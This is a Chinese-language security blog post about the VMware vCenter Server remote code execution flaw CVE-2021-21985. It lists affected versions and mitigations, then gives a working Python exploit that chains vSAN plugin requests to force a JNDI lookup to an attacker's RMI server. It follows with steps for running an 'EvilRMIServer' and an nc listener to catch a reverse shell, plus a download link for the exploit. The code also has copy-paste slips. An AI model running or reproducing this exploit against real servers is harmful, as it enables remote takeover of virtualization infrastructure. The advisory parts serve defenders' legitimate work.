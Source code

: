 ```yaml
---
layout: post
title: "VMware vCenter Server 远程代码执行漏洞CVE-2021-21985"
subtitle: 'VMware vCenter Server 远程代码执行漏洞'
author: "hackeyes"
header-style: text
tags:
  - 网络攻防
---
```


# 漏洞详情

2021年5月25日，VMware 官方发布安全公告，披露了 VMware vCenter Server远程代码执行漏洞（CVE-2021-21985）、VMware vCenter Server 插件权限绕过漏洞（CVE-2021-21986 ）。

攻击者可构造恶意请求，通过vCenter中的默认开启的Virtual SAN Health Check插件造成远程代码执行漏洞。腾讯安全专家提醒 VMware 用户尽快采取安全措施阻止漏洞攻击。

 VMware是一家云基础架构和移动商务解决方案厂商，提供基于VMware的虚拟化解决方案。

# 受影响版本

VMware vCenter Server 7.0系列 < 7.0.U2b

VMware vCenter Server 6.7系列 < 6.7.U3n

VMware vCenter Server 6.5系列 < 6.5 U3p

VMware Cloud Foundation 4.x 系列 < 4.2.1

VMware Cloud Foundation 4.x 系列 < 3.10.2.1

# 修复建议

1、升级VMware vCenter Server 至最新版本。

2、针对 CVE-2021-21985 VMware vCenter Server 远程代码漏洞，可按照 https://kb.vmware.com/s/article/83829 相关措施进行缓解

# POC

```
import requests
import sys
import json
def send_request(host,uri,json):
    try:
        req = requests.post(url=host+baseuri+uri,json=json,headers=headers,verify=False)
        return req.text
    except:
        return False
def check_false(request):
    if request ==False or 'result' not in request:
        print("[*] No Vuln!")
        return True
if __name__ == '__main__':
    if len(sys.argv) < 2:
        print('''python3 cve-2021-21985.py https://host rmi://8.8.8.8:1099/Exploit''')
        sys.exit()
    host = sys.argv[1]
    payload = sys.argv[2]
    baseuri = "/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService"
    uris = ["/setTargetObject", "/setStaticMethod", "/setTargetMethod", "/setArguments", "/prepare", "/invoke"]
    headers = {'Content-Type': 'application/json', "User-Agent": "pentest"}
    stage_setTargetObject = json.loads('{"methodInput":[null]}')
    stage_setStaticMethod = json.loads('{"methodInput":["javax.naming.InitialContext.doLookup"]}')
    stage_setTargetMethod = json.loads('{"methodInput":["doLookup"]}')
    stage_setArguments = json.loads('{"methodInput":[["%s"]]}'%payload)
    stage_prepare = json.loads('{"methodInput":[]}')
    print("[*] start init TargetObject")
    # init TargetObject
    init_request  = send_request(host,uris[0],json=stage_setTargetObject)
    if check_false(init_request):
        print("[*] init failed!")
        exit()
    # Step2 setStaticMethod
    StaticMethod = send_request(host,uris[1],json=stage_setStaticMethod)
    if check_false(init_request):
        print("[*] StaticMethod init failed!")
        exit()
    # Step3 setTargetMethod
    StaticMethod = send_request(host,uris[2],json=stage_setTargetMethod)
    if check_false(init_request):
        print("[*] setTarget Method failed!")
        exit()
    # Step4 setArguments
    # print(stage_setArguments)
    setArguments = send_request(host,uris[3],json=stage_setArguments)
    if check_false(init_request):
        print("[*] setArguments failstage_setArgumentsed!")
        exit()
    # Step5 prepare
    setArguments = send_request(host,uris[4],json=stage_prepare)
    if check_false(init_request):
        print("[*] stage_prepare failed!")
        exit()
    # Step6 invoke
    setArguments = send_request(host,uris[5],json=stage_prepare)
    if check_false(init_request):
        print("[*] invoke failed!")
        exit()
```



#  验证方式

1.启动rmi服务 java -cp JNDI-Injection-Bypass-1.0-SNAPSHOT-all.jar payloads.EvilRMIServer attip

2.启动reverse shell监听，nc -lvvp port

3.执行payload 得到reverse shell

<a href="../download/cve-2021-21985.zip" target="_blank">CVE-2021-21985</a>

